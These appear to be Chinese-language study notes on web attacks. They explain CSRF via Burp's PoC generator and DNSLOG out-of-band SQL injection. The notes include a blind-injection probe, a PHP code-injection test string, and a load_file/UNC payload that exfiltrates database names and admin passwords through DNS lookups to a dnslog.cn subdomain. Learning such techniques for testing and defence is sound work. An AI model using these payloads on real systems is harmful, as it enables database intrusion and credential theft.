 # CSRF跨站伪造请求

> **待办事项**
>
> - [ ] CSRF PoC是什么？

- 攻击过程

1. 存储请求

2. 触发请求

- 通过**burp**截获客户端发送修改请求的数据包，然后使用**burp**自带工具**CSRF PoC**生成CSRF攻击，也就是将请求保存下来，再通过这个工具重新回到网站伪造请求对该用户的数据进行修改。

  `test.php?DE=PHPINFO();`

- 网站后台：上传文件漏洞，上传木马，获取网站操作权限

# DNSLOG注入

> 漏洞利用：
>
> dns解析地址的时候会将别人询问的域名记录下来。



​	首先，先了解一下**盲注**是什么：向服务器问问题。比如说下面这个语句，就是在`url`后面的参数中传递这样一串sql语句，如果返回的没有内容或者是错误，那这个服务器的数据库名称不是以k开头的。

```mysql
select * from news where id=1 and substr(database(),1,1)='k'
```

如果像上面这个一个一个的问，那会很麻烦。

**oob：out of band **数据外带

- **实例分析**

在`dnslog.cn`中显示管理员密码

1. 查数据库的库名:`select database();`

2. 拼接`concat：select concat('b','a');`->显示ba

子查询：`concat((select database()),'.d0vag1.dnslog.cn');`

3. 让目标访问构造的域名

`load_file('//C:/target/.../1.txt') 使用unc路径//`

读取文件内容，本地与远程都ok

最终结果:

```mysql
load_file(concat('//',(select database()),'.域名/1.txt'));
select hex(password) from admin limit 1,1
```
